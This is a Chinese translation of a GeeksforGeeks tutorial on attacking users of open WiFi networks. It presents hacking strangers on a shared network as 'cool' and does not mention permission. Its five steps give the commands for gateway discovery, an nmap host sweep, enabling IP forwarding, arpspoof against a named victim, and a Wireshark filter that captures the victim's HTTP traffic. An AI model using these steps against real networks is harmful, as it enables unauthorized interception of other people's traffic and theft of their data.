 # 如何黑开 WiFi？

> 原文:[https://www.geeksforgeeks.org/how-to-hack-a-open-wifi/](https://www.geeksforgeeks.org/how-to-hack-a-open-wifi/)

我们知道，如今如果我们中的任何人发现免费开放的 WiFi，我们的幸福就更上一层楼了。黑一个使用和我们一样的开放式 WiFi 的人听起来不是很酷吗？如果答案是肯定的，那么让我们来看看如何实现这一目标。

我们将需要以下工具:

1.  **Kali Linux 或其他安装了所需工具的 Linux:**Kali Linux 是一个高级渗透测试 Linux 发行版，用于渗透测试、道德黑客和网络安全评估。
2.  **Nmap:** Nmap 是一款免费开源的网络扫描仪。它用于通过发送数据包和分析响应来发现网络上的主机和服务。
3.  **ARP 欺骗:** ARP 代表 **A** 地址 **R** 解决方案 **P** 协议。每当我们将设备连接到 WiFi 网络时，ARP 就会为我们分配一个唯一的 IP 地址，并将我们的设备 MAC 地址存储在 ARP 表中，ARP 欺骗只是欺骗这些请求。
4.  **Wireshark:** 是一款开源的数据包分析器，用于网络分析和故障排除。

### 破解开放式无线网络的步骤

**第一步:**连接目标网络，在终端运行以下命令:

```
ip route
```

![IP route command](img/51e4022230496a9da7d91ab90e842bcf.png)

上面的命令用于查找我们的流量流动的网关地址。

**步骤 2:** 下一步是通过执行以下命令，使用 nmap 查找连接到网络的不同主机:

```
nmap -sP -n "gateway address/ip range"
```

![Nmap command](img/f347ec730e9cac63398c91cc27b3e3b0.png)

使用此命令，我们将找到所有连接到我们目标网络的主机及其 IP 地址和 MAC 地址。

**步骤 3:** 使用以下命令启用 IP 转发:

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

**步骤 4:** 为了在我们的设备上获取受害者流量，我们将使用 ARP 欺骗命令。对于 ARP 欺骗命令，我们需要知道执行攻击的接口，为此，请运行以下命令:

```
ifconfig
```

![ifconfig command](img/2cbdd267ccc7b8f1a9422d8a7bccab46.png)

现在运行以下命令:

```
arpspoof -i wlp3s0 -t "victim host ip address" -r "our ip address"
```

我们已经欺骗了受害者的设备，他的路由器地址已经被更改为我们的 IP 地址，现在我们可以拦截所有的流量。

**第五步:**最后为了拦截受害者的流量，我们要使用 Wireshark，我们要做的就是使用受害者的 IP 地址。假设我们只希望有 HTTP 流量，我们可以使用以下查询:

```
http && ip.addr == "victim's ip address"
```

![Intercepting HTTP Traffic](img/cc9fcda02b79bcebc449756f50776a14.png)